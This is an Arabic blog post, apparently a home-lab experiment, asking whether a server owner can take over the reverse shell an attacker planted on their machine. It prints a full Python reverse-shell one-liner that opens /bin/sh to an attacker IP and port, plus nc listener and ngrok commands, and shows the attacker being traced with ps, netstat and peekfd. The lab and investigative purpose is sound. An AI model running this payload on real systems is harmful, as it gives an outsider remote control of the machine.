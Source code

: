 ```yaml
---
title: اتصال عكس عكسي؟
date: 2025-03-15
description: هل يمديك تخترق سيرفر الشخص اللي قاعد يخترق سيرفرك ؟
tags: ["Contributions"]
categories: "Contributions"
---
```


بسم الله الرحمن الرحيم، قد جاء في بالي تساؤل، هل يمديك تَختَرِق المُختَرِق؟. يعني أنا لو شفت أن في أحد قاعد يتحكم في السيرفر حقي من خلال أنه يخلي السيرفر حقي يشبك على السيرفر حقه (reverse shell) هل يمديني أشبك على السيرفر حقه وأخليه يشبك على السيرفر حقي؟ يعني زي نظام بطتنا نطت فوق بطن بطتكم

# اتصال عكسي بسيط
أنا عندي الجهاز الافتراضي شغال على نظام debian راح يكون هو المهاجم، أما الجهاز حقي راح يكون هو الضحية (حاليًا). الآيبي حق جهازي (192.168.122.1) والآيبي حق المهاجم (192.168.122.120). راح أبدأ بطريقة بسيطة للحصول على اتصال عكسي عبر ngrok:
- ngrok tcp PORT & nc -lnvp PORT في جهاز المهاجم
- في جهازي راح أنفذ سكربت بايثون بسيط (نفترض أن سيرفري فيه ثغرة RCE)

![Attacker_commands](assets/img/Screenshot%20From%202025-03-20%2000-39-20.png)
![Victim_commands](assets/img/Screenshot%20From%202025-03-20%2000-41-16.png)
![Attacker_reverse_shell](assets/img/Screenshot%20From%202025-03-20%2000-41-35.png)

طيب الآن خليني أشوف الهكرجي هذا إيش قاعد يسوي

```shell
ps axjf | grep python

3726    5089    3726    3726 ?             -1 Sl    1000   0:10  |   \_ /usr/bin/python /usr/bin/terminator
   6160   48148   48148    6160 pts/1      48148 S+    1000   0:00  |   |   |   \_ python -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.122.120",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
  41092   50617   50616   41092 pts/2      50616 S+    1000   0:00  |   |   |   \_ grep python
```
نلاحظ أن الآبي حقه ظاهر لنا في هذا الأمر (أنا قاعد ألعب دور مدير النظام، يعني قاعد أحقق في الموضوع) خلينا ناخذ الآيبي هذا ونشوف إيش وضعه. في حال ماحصلت الحمولة اللي رسلها المهاجم للسيرفر حقي أقدر أشوف حركة الشبكة

```bash
sudo netstat -tuenpa 
 
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name    
tcp        0      0 127.0.0.1:27017         0.0.0.0:*               LISTEN      962        29003      3083/mongod         
tcp        0      0 127.0.0.1:5900          0.0.0.0:*               LISTEN      952        128807     40174/qemu-system-x 
tcp        0      0 192.168.122.1:53        0.0.0.0:*               LISTEN      0          20188      1321/dnsmasq        
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          574        902/sshd: /usr/bin/ 
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      0          25808      899/cupsd           
tcp        0      0 127.0.0.1:6463          0.0.0.0:*               LISTEN      1000       123829     39407/app.asar --no 
tcp        0      0 127.0.0.1:4000          0.0.0.0:*               LISTEN      1000       137728     43046/jekyll s      
tcp        0      0 10.19.103.9:44030       142.250.181.78:443      ESTABLISHED 1000       149199     6715/waterfox       
tcp        0      0 10.19.103.9:40252       34.107.243.93:443       ESTABLISHED 1000       137382     6715/waterfox       
tcp        0      0 10.19.103.9:49054       172.66.40.244:443       ESTABLISHED 1000       169110     6715/waterfox       
tcp        0      0 10.19.103.9:58910       162.159.134.234:443     ESTABLISHED 1000       148056     39289/discord --sta 
tcp        0      0 192.168.122.1:42560     192.168.122.120:4242    ESTABLISHED 1000       148709     48148/python     !!!!!!!!!   
tcp6       0      0 :::22                   :::*                    LISTEN      0          576        902/sshd: /usr/bin/ 
tcp6       0      0 ::1:631                 :::*                    LISTEN      0          25807      899/cupsd           
udp        0      0 192.168.122.1:53        0.0.0.0:*                           0          20187      1321/dnsmasq        
udp        0      0 0.0.0.0:67              0.0.0.0:*                           0          20184      1321/dnsmasq        
udp        0      0 10.19.103.9:68          10.13.168.19:67         ESTABLISHED 0          20286      804/NetworkManager 
```
حاولت أفحص المداخل على أمل إني أحصل مدخل مفتوح أقدر أشبك عليه (bind shell) لكن باءت التجربة بالفشل، خليني أشوف إيش قاعد يسوي. الأمر هذا أستخدمه في ال  ctf لأنه ممتع الصراحة، يخليك تشبك على الإتصال اللي أنت تحدده، في هذه الحالة رقم العملية 48148
```bash
peekfd -n -8 -c -d 48148
```
![me](assets/img/Screenshot%20From%202025-03-20%2001-37-49.png)
![attacker](assets/img/Screenshot%20From%202025-03-20%2001-37-58.png)
طبعا أنا ما أبغى أتفرج على المهاجم بس، أبغى أحاول أتحكم بالإتصال العكسي حقه!